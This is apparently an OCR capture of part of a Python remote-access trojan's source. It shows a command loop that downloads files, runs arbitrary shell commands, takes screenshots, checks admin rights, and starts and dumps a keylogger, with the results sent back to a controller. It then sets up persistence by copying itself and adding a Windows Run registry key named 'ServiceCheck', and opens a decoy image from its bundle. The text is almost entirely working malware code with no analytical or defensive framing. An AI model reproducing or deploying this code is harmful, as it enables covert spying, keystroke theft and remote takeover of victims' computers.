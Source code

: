 ```python
            if result[:4]!="[!!]":
                with open(command[7:],"wb") as file_up:
                    file_up.write(base64.b64decode(result))
        elif command[:3]=="get":
            try:
                url =command[4:]
                get_response = requests.get(url)
                file_name = url.split("/")[-1]
                with open(file_name,"wb") as out_file:
                    out_file.write(get_response.content)
                reliable_send("[+] File Downloaded!")
            except:
                reliable_send("[!!] Download Failed")
        elif command[:5]=="start":
            try:
                subprocess.Popen(command[6:],shell=True)
                reliable_send("[+] Program Started!")
            except:
                reliable_send("[!!] Program cannot start!!!")
        elif command[:10]=="screenshot":
            try:
                with mss() as screenshot:
                    screenshot.shot()
                with open("monitor-1.png","rb") as ss:
                    reliable_send(base64.b64encode(ss.read()).decode("ascii"))
                os.remove("monitor-1.png")
            except:
                reliable_send("[!!] failed to take screenshot!")
        elif command[:5] =="check":
            try:
                os.listdir(os.sep.join([os.environ.get('SystemRoot','C:\windows'),'temp']))
                reliable_send("[+] Great, You have admin priviledges")
            except:
                reliable_send("[!!]Sorry ,you are not admin")

        elif command[:12]=="keylog_start":
            kl_thread=threading.Thread(target = kl_start)
            kl_thread.start()
        elif command[:11]=="keylog_dump":
            with open(kl_file,"r") as file_down:
                 content = file_down.read()
                 reliable_send(content)
        else:
            proc=subprocess.Popen(command,shell=True,stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)
            response=proc.stdout.read()+proc.stderr.read() 
            reliable_send(response.decode('cp950'))
        

if not os.path.exists (File_Location):
    shutil.copyfile(sys.executable,File_Location)
    #registry
    subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v ServiceCheck /t REG_SZ /d "'+ File_Location+'"',shell=True)

img=sys._MEIPASS + ImageFile
try:
    subprocess.Popen(img,shell=True)
except:
    A = 1
    B = 2
    SUB = A+B

```